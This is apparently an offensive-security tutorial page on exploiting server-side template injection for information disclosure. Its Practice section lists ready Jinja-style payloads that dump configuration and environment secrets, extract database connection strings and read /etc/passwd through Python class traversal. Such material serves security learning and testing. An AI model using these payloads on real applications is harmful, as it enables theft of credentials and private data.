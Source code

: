 ```yaml
---
title: Leveraging SSTI for Information Disclosure
description: Explore techniques to exploit SSTI vulnerabilities for accessing sensitive
  information in web applications.
keywords:
- SSTI
- information disclosure
- web security
- sensitive data
- template injection
- configuration exposure
- environment variables
- file system enumeration
- source code disclosure
- database connection strings
---
```


# Information Disclosure

## Context

Exploiting server-side template injection (SSTI) vulnerabilities is a powerful technique in offensive cybersecurity, often leading to significant information disclosure. This approach leverages flaws in web server applications to expose sensitive data. For effective exploitation, a working knowledge of template engines, web server configurations, and the HTTP request/response cycle is essential.

## Theory

### Information Disclosure via SSTI

Information disclosure through SSTI refers to the unintended exposure of sensitive information when an attacker injects expressions into templates that the application processes. This exposure often occurs because templates are insufficiently sandboxed, allowing access to application internals such as configuration files, environment variables, or internal paths. The typical attack sequence involves crafting a malicious payload that, when rendered by the server, extracts and returns sensitive information to the attacker.

### Sensitive Data Types Exposed by SSTI

1. **Configuration Exposure**: Involves leaking application or server configuration details.
2. **Environment Variable Disclosure**: Revealing secrets, keys, or credentials stored within environment variables.
3. **File System Enumeration**: Listing or reading files and directories through crafted template expressions.
4. **Source Code Disclosure**: Accessing application source files via template injection.
5. **Database Connection String Leak**: Extracting database credentials from configuration settings or environment variables.
6. **Template Debug Information**: Exposing stack traces or error messages that give insights into the template context or application logic.

### Attacker Mindset and Threat Surface

Attackers capitalizing on SSTI vulnerabilities are focused on enumerating accessible objects and functions to extract maximum sensitive data. The primary goal is to uncover secrets, credentials, and internal application structure, which can then be exploited further. This typically involves iterative probing—injecting benign expressions, analyzing responses, and incrementally escalating to sensitive data extraction.

## Practice

### Enumerate Environment Variables via SSTI

- **Payload**: 

    ```python
    {{ config.items() }}
    ```

    This payload attempts to enumerate configuration or environment variables in Python-based templates.

- **Payload**:

    ```python
    {{ getenv('SECRET_KEY') }}
    ```

    Directly accesses a specific environment variable if supported.

**Outcome**: Successfully accessing these data points can yield environment variables or secrets exposed by the template context.

### Read Sensitive Files via SSTI

- **Payload**:

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    ```

    This clever payload uses Python's object traversal to read sensitive files such as `/etc/passwd`. Note that the subclass index might need adjustment based on the application specifics.

**Outcome**: Enables access to file contents, providing insights into system configurations or applications' sensitive data like passwords.

### Enumerate Application Structure via SSTI

- **Payload**:

    ```python
    {{ dir() }}
    ```

    Lists available objects in the template context.

- **Payload**:

    ```python
    {{ request.application.__dict__ }}
    ```

    Attempts to enumerate application internals if they are accessible within the template context.

**Outcome**: Reveals the internal application structure, aiding further exploitation and understanding of the application mechanics.

### Extract Database Connection Strings via SSTI

- **Payload**:

    ```python
    {{ config['SQLALCHEMY_DATABASE_URI'] }}
    ```

    Attempts to access database connection strings from the application's configuration.

**Outcome**: Successful extraction provides access to database credentials, paving the way for lateral movement or data exfiltration.

### Leak Template Debug Information

- **Payload**:

    ```python
    {{ 7/0 }}
    ```

    This payload triggers a division-by-zero error, forcing the application to emit template error debug information, which often includes stack traces or insights into the template processing logic.

**Outcome**: Such leaks can expose critical application logic, aiding attackers in understanding vulnerabilities or misconfigurations.

## Tools

- **Burp Suite**
- **curl**